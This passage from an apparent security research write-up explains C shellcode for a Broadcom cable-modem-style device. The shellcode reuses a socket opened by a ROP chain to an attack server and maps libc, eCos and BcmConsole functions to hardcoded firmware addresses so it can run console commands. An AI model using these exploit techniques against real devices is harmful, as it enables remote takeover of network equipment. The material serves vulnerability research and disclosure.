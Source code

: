 Then the fixed address where the socket file descriptor value is saved. This address is shared by both the shellcode
and the ROP chain so that the shellcode can re-use the opened socket from which the ROP chain read the shellcode received
from the attack server.

A command offset is also defined, but we will get back to it later.

{% highlight c %}
#define SAVED_SOCKET_ADDR 0x8648d984
#define COMMAND_OFFSET 0x1080
{% endhighlight %}

The code then defines function prototypes in the manner of a C header file. We have function from standard unix libraries
and cygnus libraries, followed by custom function from Broadcom Foundation Classes (BcmConsole):

{% highlight c %}
typedef void* strcpy_t(void* to, void const* from);
typedef int recv_t(int s, void* buf, unsigned int len, int flags);
typedef unsigned int *send_t(int s, void const* buf, unsigned int len, int flags);
typedef void* malloc_t(unsigned int size);
typedef void* bzero_t(void* block, unsigned int size);
typedef int sleep_t(unsigned int zzz);
typedef void *cyg_fp_get_t(int fd);
typedef void cyg_fp_free_t(void *fp);
typedef int cyg_fd_assign_t(int fd, void *fp);
typedef int printf_t(char *str, ...);

typedef void* BcmConsoleGetSingletonInstance_t(void);
typedef int BcmConsoleExecuteCurrentCommand_t(void* console);
{% endhighlight %}

Once addresses and prototypes are defined, the code maps those:

{% highlight c %}
recv_t *recv_ptr = (recv_t *) RECV_ADDR;
malloc_t *malloc_ptr = (malloc_t *) MALLOC_ADDR;
bzero_t *bzero_ptr = (bzero_t *) BZERO_ADDR;
strcpy_t *strcpy_ptr = (strcpy_t *) STRCPY_ADDR;
printf_t *printf_ptr = (printf_t *) PRINTF_ADDR;
send_t *send_ptr = (send_t *) SEND_ADDR;

cyg_fp_get_t *cyg_fp_get_ptr = (cyg_fp_get_t *) CYG_FP_GET;
cyg_fp_free_t *cyg_fp_free_ptr = (cyg_fp_free_t *) CYG_FP_FREE;
cyg_fd_assign_t *cyg_fd_assign_ptr = (cyg_fd_assign_t *) CYG_FD_ASSIGN;

BcmConsoleExecuteCurrentCommand_t *consoleExecute_ptr = (BcmConsoleExecuteCurrentCommand_t *) CONSOLE_EXECUTE_ADDR;
BcmConsoleGetSingletonInstance_t *consoleGetInstance_ptr = (BcmConsoleGetSingletonInstance_t *) GET_CONSOLE_SINGLETON_ADDR;
{% endhighlight %}

We have to do that because we cannot execute dynamic linking or execute syscalls :)

#### Variables Initialization

